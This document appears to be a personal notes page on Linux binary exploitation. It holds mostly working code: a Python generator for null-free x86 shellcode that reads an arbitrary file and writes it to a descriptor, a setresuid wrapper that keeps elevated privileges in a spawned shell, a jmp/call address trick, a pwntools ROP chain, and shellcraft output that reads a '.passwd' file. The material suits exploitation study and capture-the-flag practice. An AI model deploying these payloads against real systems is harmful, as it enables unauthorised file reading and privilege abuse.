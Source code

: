 Note that the usually the base pointer is trashed during the exploting
process in a normal exploitation process, but the stack pointer is not.


 - http://www.blackhatlibrary.net/Shellcode/Null-free
 - [Error codes](http://www-numi.fnal.gov/offline_software/srt_public_context/WebDocs/Errors/unix_system_errors.html)

Since the standard ``/bin/sh`` is a link to ``/bin/bash`` that
droppes privileges when called, you can call instead a script
like the following

```python
#!/usr/bin/env python2
import os
os.setresuid(os.geteuid(), os.geteuid(), os.geteuid())
os.execlp("bash", "bash")
```

In order to make the payload more abstract possible (think about environmental variables) you need
to use a shell without configuration

```
$ env -i bash --norc --noprofile
```

You can look at the system log to understand crashes, for example
the error level in syslog are defined in ``arch/*/mm/fault.c`` in kernel
source code: for example the kernel can log a line like

    kernel: myapp[15514]: segfault at 794ef0 ip 080513b sp 794ef0 error 6 in myapp[8048000+24000]

If you want to capture the segmentation fault error you can do something like [this](https://unix.stackexchange.com/questions/53289/does-segmentation-fault-message-come-under-stderr)

    { ./code; } >&log

```
/*
 * Page fault error code bits:
 *
 *   bit 0 ==    0: no page found       1: protection fault
 *   bit 1 ==    0: read access         1: write access
 *   bit 2 ==    0: kernel-mode access  1: user-mode access
 *   bit 3 ==                           1: use of reserved bit detected
 *   bit 4 ==                           1: fault was an instruction fetch
 */
```

## Stack-based

In this context you are to pratically programming with assembly
into a buffer.

For example the following shellcode opens a fixed file and then write its contents
of to a file descriptor passed as first argument into the stack:

```python
# linux/x86/read_file - 84 bytes
# http://www.metasploit.com
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
#
# Modified shell code that reads a file and write its contents in the file descriptor
# passed as first argument into the stack.
#
# TODO: make configurable the use of sys_sendto() and return to the caller.
import sys

if len(sys.argv) < 2:
    sys.stderr.write('usage: %s <PATH>' % sys.argv[0])
    sys.exit(1)

path = sys.argv[1]

def put_piece_into_stack(piece):
    length = len(piece)
    assert length <= 4

    null_byte_needed = length < 4

    if null_byte_needed:
        piece = 'x'*(4 - length) + piece

    return  null_byte_needed, ('\xb8%s' % piece) + \
            ('\xc1\xe8%c' % ((4 - length)*8) if null_byte_needed else '') + \
            '\x50'

def build_string_into_stack(path_string):
    '''Returns the instructions to put into the stack
    the path needed

    0x00000002   5               b87878786f  mov eax, 0x6f787878
    0x00000007   3                   c1e818  shr eax, 0x18
    0x0000000a   1                       50  push eax
    '''

    path_length = len(path_string)
    # split the path so that each piece fit into a 32 bits register
    path_componentes = [path_string[x:x + 4] for x in range(0, path_length, 4)]
    path_componentes.reverse()

    buf = ''

    for path_component in path_componentes:
        null_byte_needed, opcode = put_piece_into_stack(path_component)
        buf += opcode

    return buf


buf  = ""                             # NOTE: some offset are wrong since we have modified the original shellcode
buf += "\x89\xe5"                     # 0x00000000   2                     89e5  mov ebp, esp

buf += build_string_into_stack(path)

buf += "\x31\xc0"                     # 0x00000017   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000019   1                       40  inc eax
buf += "\x40"                         # 0x0000001a   1                       40  inc eax
buf += "\x40"                         # 0x0000001b   1                       40  inc eax
buf += "\x40"                         # 0x0000001c   1                       40  inc eax
buf += "\x40"                         # 0x0000001d   1                       40  inc eax
buf += "\x89\xe3"                     # 0x0000001e   2                     89e3  mov ebx, esp
buf += "\x31\xc9"                     # 0x00000020   2                     31c9  xor ecx, ecx
buf += "\xcd\x80"                     # 0x00000022   2                     cd80  int 0x80             sys_open()
buf += "\x89\xc3"                     # 0x00000024   2                     89c3  mov ebx, eax
buf += "\xb8\x40\x30\x20\x10"         # 0x00000026   5               b840302010  mov eax, 0x10203040
buf += "\xc1\xe8\x10"                 # 0x0000002b   3                   c1e810  shr eax, 0x10
buf += "\x50"                         # 0x0000002e   1                       50  push eax
buf += "\x29\xc4"                     # 0x0000002f   2                     29c4  sub esp, eax
buf += "\x31\xc0"                     # 0x00000031   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000033   1                       40  inc eax
buf += "\x40"                         # 0x00000034   1                       40  inc eax
buf += "\x40"                         # 0x00000035   1                       40  inc eax
buf += "\x89\xe7"                     # 0x00000036   2                     89e7  mov edi, esp
buf += "\x89\xf9"                     # 0x00000038   2                     89f9  mov ecx, edi
buf += "\x8b\x55\xf0"                 # 0x0000003a   3                   8b55f0  mov edx, [ebp-0x10]
buf += "\xcd\x80"                     # 0x0000003d   2                     cd80  int 0x80             sys_read()
buf += "\x89\xc2"                     # 0x0000003f   2                     89c2  mov edx, eax
buf += "\x31\xc0"                     # 0x00000041   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000043   1                       40  inc eax
buf += "\x40"                         # 0x00000044   1                       40  inc eax
buf += "\x40"                         # 0x00000045   1                       40  inc eax
buf += "\x40"                         # 0x00000046   1                       40  inc eax
buf += "\x8b\x5d\x04"                 # 0x00000047   3                   8b5d04  mov ebx, [ebp+0x4]
buf += "\xcd\x80"                     # 0x0000004a   2                     cd80  int 0x80             sys_write()
buf += "\x31\xc0"                     # 0x0000004c   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x0000004e   1                       40  inc eax
buf += "\x31\xdb"                     # 0x0000004f   2                     31db  xor ebx, ebx
buf += "\xcd\x80"                     # 0x00000051   2                     cd80  int 0x80             sys_exit()

sys.stdout.write(buf)
```

### Retrieve buffer related address

This below is an example in which we do a jmp and a call back, in this
way we obtain from the stack the address from which the call is started:
(the code is for ``amd64``)

```asm
    /* call write(1, 4196356, 3) */
    jmp miao
start:
    pop rsi
    push (SYS_write) /* 1 */
    pop rax
    push 1
    pop rdi
    push 50
    pop rdx
    syscall
    
    ret
miao:    call start
.ascii "miao\0"
```
(is inspired from the original [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)).

## ROP

```python
import sys

from pwnlib.rop import rop
from pwnlib import constants
from pwnlib.context import context

context.arch = 'amd64'
r = rop.ROP('libc.so.6')
r.write(constants.STDOUT_FILENO, 0x400639, 5)
r.exit()

sys.stderr.write(r.dump())

sys.stdout.write(str(r))
```

### Links

 - [Bypassing ASLR – Part III](https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-iii/) GOT overwrite and GOT dereference
 - [Exploiting WebKit on Vita 3.60](https://blog.xyz.is/2016/webkit-360.html)
 - [Porting exploits to a Netgear WNR2200](http://www.contextis.com/resources/blog/porting-exploits-netgear-wnr2200/)

## Tools

It's possible to generate automagically shellcodes using some tools like ``shellcraft``
a command line program included with ``pwntools``:

```
$ shellcraft i386.linux.cat .passwd --format asm
    /* push '.passwd\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1657672
    push 0x7361702e
    /* call open('esp', 0, 'O_RDONLY') */
    push (SYS_open) /* 5 */
    pop eax
    mov ebx, esp
    xor ecx, ecx
    cdq /* edx=0 */
    int 0x80
    /* call sendfile(1, 'eax', 0, 0x7fffffff) */
    mov ecx, eax
    xor eax, eax
    mov al, 0xbb
    push 1
    pop ebx
    push 0x7fffffff
    pop esi
    cdq /* edx=0 */
    int 0x80
```
